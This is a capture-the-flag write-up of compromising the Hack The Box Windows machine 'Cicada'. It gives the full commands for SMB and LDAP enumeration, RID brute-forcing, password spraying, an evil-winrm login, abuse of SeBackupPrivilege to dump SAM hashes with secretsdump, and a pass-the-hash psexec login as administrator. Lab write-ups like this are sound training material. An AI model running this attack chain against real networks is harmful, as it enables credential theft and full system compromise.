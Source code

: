 # Cicada Writeup - by Thammanant Thamtaranon  
- Cicada is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.11.35
```
![Nmap_Scan1](Nmap_Scan1.png)  
![Nmap_Scan2](Nmap_Scan2.png)  
- The scan showed multiple open ports:  
  - 53 (DNS)  
  - 88 (Kerberos)  
  - 135, 139, 445 (MSRPC, NetBIOS, SMB)  
  - 389, 636, 3268, 3269 (LDAP / LDAPS / Global Catalog)  
  - 464 (kpasswd5)  
  - 593 (RPC)  
  - 5985 (WinRM)  

- I added `cicada.htb` and `CICADA-DC.cicada.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We enumerated SMB shares:
```bash
smbclient -L \\cicada.htb\\ -N
```
![SMB](SMB.png)  
- We tried to connect to `DEV` but could not list its directory. We then tried `HR` and found `Notice from HR.txt`.  
- After inspecting the file, we found the default password.  
![Message](Message.png)  
- To find usernames, I ran:
```bash
netexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep "SidTypeUser" | awk -F'\' '{print $NF}' | awk '{print $1}' | sort -u > users.txt
```
![Users](Users.png)  
- Now that we had the users list, we checked LDAP credentials:  
```bash
netexec ldap 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![Credential](Credential.png)  
- We then enumerated LDAP further:  
```bash
netexec ldap CICADA-DC.cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
- We found a password for user `david.orelious`.  
![David](David.png)  
- We tried using `netexec winrm` for `david.orelious` but failed. We then connected to `DEV` directory in SMB as `david.orelious` and found `Backup_script.ps1` which contained credentials for `emily.oscars`.  
![DEV](DEV.png)  
![Script](Script.png)  
- We then checked SMB and WinRM access for `emily.oscars` and confirmed that this user could read the `ADMIN$` directory.  
![Emily](Emily.png)

## Exploitation  
- We connected to the machine using `evil-winrm`:  
```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
![Shell](Shell.png)  
- We then captured the user flag.

## Privilege Escalation  
- We checked privileges and groups using `whoami /priv` and `whoami /groups`  
![Priv](Priv.png)  
- The interesting privileges we found were:  
  - `SeBackupPrivilege` (allows reading any file ignoring ACLs, even SYSTEM files)  
  - `SeRestorePrivilege` (allows writing to any file ignoring ACLs, useful for overwriting executables)  
- We downloaded `SAM` and `SYSTEM` files to extract Windows password hashes:  
```bash
impacket-secretsdump -sam sam -system system LOCAL
```
![SAM_SYSTEM](SAM_SYSTEM.png)  
![Hashes](Hashes.png)  
- We then used `impacket-psexec` with the extracted hash:  
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341 administrator@10.10.11.35
```
- Finally, we obtained a SYSTEM shell and captured the root flag.  
![Root](Root.png)
